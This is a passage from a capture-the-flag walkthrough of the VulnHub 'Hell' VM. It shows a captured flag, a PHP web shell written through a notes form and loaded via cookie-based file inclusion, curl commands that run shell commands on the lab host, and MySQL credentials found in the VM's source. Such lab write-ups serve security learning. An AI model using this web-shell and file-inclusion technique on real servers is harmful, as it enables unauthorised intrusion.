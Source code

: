 ```bash Hell /root/flag.txt`

Hit me up on irc.freenode.net in #vulnhub with your thoughts (Peleus) or follow me on twitter @0x42424242

Flag: a95fc0742092c50579afae5965a9787c54f1c641663def1697f394350d03e5a53420635c54fffc47476980343ab99951018fa6f71f030b9986c8ecbfc3a3d5de


</HTML>
root@kali:~#
```

And bingo. _Technically_ we finished what the original goal was, though, re-reading the original entry on Vulnhub, I was almost certain this was not the only way to get to this. Maybe a bug on the original release of the VM? I don't know.
From here on onwards, the goal was no longer to read `/root/flag.txt`. No, we now have to root this VM :)

## gaining shell

With the focus slightly shifting, and our ability to read files off the file system, the next natural step was to attempt to get command execution on the VM. Remembering the `notes.php` file, I decided to try include `/tmp/note.txt`. This worked just fine and echoed my testing attempts from earlier. So with this information, I simply went back to `notes.php`, entered: `<?php print_r(shell_exec($_GET['c'])); ?>`, and submitted the form. Next I edited the cookiejar to include `/tmp/notes.txt`, and proceeded to test my command execution:

```bash Hell command execution
root@kali:~# curl http://192.168.56.102/super_secret_login_path_muhahaha/panel.php?c=id -c cookies -b cookies
[snip]
</CENTRE>
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</HTML>
root@kali:~#
```

Yay :) With this confirmed working, I modified the command exec request slightly so that commands with potentially strange characters are correctly encoded etc:

```bash Hell 'better' command execution
curl http://192.168.56.102/super_secret_login_path_muhahaha/panel.php?c=$(echo -n “ls -lah” | python -c "import urllib, sys; print urllib.quote(''.join(sys.stdin));") -c cookies -b cookies
```

## becoming jack
With command execution, it was easy to start enumerating as much as possible about the VM. At least as much as the `www-data` user has access to, which is generally quite a lot.

I looked at the source files for the website out of curiosity about the filtering etc that was going on. I stumbled upon some MySQL credentials in `login.php`:

```php MySQL credentials
// mysql_connect("127.0.0.1", "Jack", "zgcR6mU6pX") or die ("Server Error"); I'll change this back once development is done. Got sick of typing my password.
mysql_connect("127.0.0.1", "www-data", "website") or die("Server Error");
```
